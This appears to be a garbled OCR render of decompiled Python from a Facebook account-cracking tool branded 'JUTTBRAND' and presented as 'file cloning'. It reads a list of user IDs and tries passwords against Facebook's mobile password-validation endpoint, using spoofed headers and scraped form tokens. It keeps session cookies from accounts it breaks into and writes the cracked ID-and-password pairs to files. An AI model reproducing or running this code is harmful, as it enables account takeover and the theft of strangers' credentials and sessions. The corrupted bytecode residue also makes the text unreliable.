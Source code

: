 [0;93mYOUTUBE  : Bmt Mafia Tem

[0;93mSUPPORT  : DARLINGTON(GHOSTSON) X AWAIS(JUTTBRAND)
 
[0;93mTOOLS    :[0;95m FILE CLONING
[0;95m~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~                                              
c                 C   sd   t | �dks	 t |�dkr0tdtttt t��f � tdtttt |��f � td� t�  d S d S )Nr   z8

 [1;92mTOTAL OK : [1;92m %s  [1;92mJUTTBRAND_OK.txtz5 [1;91mTOTAL CP :[1;91m   %s [1;91JUTTBRAND_CP.txtz [1;92mPRESS ENTER TO BACK MENU )�len�print�H�P�str�ok�input�sarfraz)ZOK�cpr   r   r    �hasila   s   
�r+   c                  C   s�   t �d� tt� t�t��� } d}| d }t td� td� td� td�}|dv r2t	� �
t� |dv r;t �d	� |d
v rB	 d S d S )N�clear� �originz [1] START FILE CLONINGz
 [2] EXIT z [?] CHOOSE OPTION : ��1r   ��2r   zpython dm.py)�3r   )�os�systemr#   �logo�requests�get�url_ip�jsonr(   �__xxx__�sarfrazx�id)ZipmZtodzZIPZ_sarfraz___r   r   r    r)   j   s"   

�r)   c                   @   s4   e Zd Zdd� Zdd� Zdd� Zdd� Zd	d
� ZdS )r;   c                 C   s
   g | _ d S )N)r=   )�selfr   r   r    �__init__�   s   
z__xxx__.__init__c                 C   sx   t �d� tt� td�| _t| j��� �� | _	t �d� tt� td� d}|dv r1| �
�  d S td� | �|� d S )Nr,   zPUT FILE NAME : r-   �y)ZyesZYes�Yr@   z [!] CHOOSE CORRECT ONE)r4   r5   r#   r6   r(   Zcnt�open�read�
splitlinesr=   �__pler__r<   )r>   r=   Z___worldwide___r   r   r    r<   �   s   


z__xxx__.sarfrazxc                 C   s�  t j�dt� dt| j�� dtt�� dtt�� d�	� t j��  �z2|D �]'}|�	� }t
�� }|ddddd	d
ddd
dddd�
}|jd|� d�|d�}t
�dt|j���d�t
�dt|j���d�|d|dd�}|ddd| ddddd
ddd
d| d ddd�}	|jd|� d �||	d!d"�}
d#|j�� v r�d$�d%d&� |j�� �� D ��}td't� d(|� d)|� �� d*||f }t�|� td+d,��d-| � | �||�  n�d.|j�� v �rKzBtd/��� }
|�d0|� d1|
� ���� d2 }|�d3�\}}}t| }td4t ||f � d*||f }t�|� td5d,��d-| � W  n6 t!t"f�y'   d6}d6}d6}Y n   Y td4t ||f � d*||f }t�|� td5d,��d-| �  nq#td7 aW d S    | �#|||� Y d S )7Nz
[1;92m[CRACKING] �|z [ok][z] [cp][z] r0   z{NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+z�text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9zmark.via.gpzsame-originZcors�emptyZdocumentzhttps://m.facebook.com/zgzip, deflate brzen-GB,en-US;q=0.9,en;q=0.8)
�Host�upgrade-insecure-requestsr   �acceptZdnt�x-requested-with�sec-fetch-site�sec-fetch-mode�sec-fetch-user�sec-fetch-dest�referer�accept-encoding�accept-languagezhttps://zV/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F)�headerszname="lsd" value="(.*?)"r   zname="jazoest" value="(.*?)"Zlogin_no_pinz8https://developers.facebook.com/tools/debug/accesstoken/)ZlsdZjazoest�uidZflow�pass�nextz	max-age=0z!application/x-www-form-urlencodedz�Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36ZXMLHttpRequest)rH   z
cache-controlrI   r.   zcontent-typer   rJ   rK   rL   rM   rN   rO   rP   rQ   rR   z-/login/device-based/validate-password/?shbl=0F)�datarS   Zallow_redirectsZc_user�;c                 S   s   g | ]
\}}|d  | �qS )�=r   )�.0�key�valuer   r   r    �
<listcomp>�   s    z&__xxx__.__metode__.<locals>.<listcomp>�
z[JUTTBRAND-OK] z | z%s|%szJUTTBRAND_OK.txt�az%s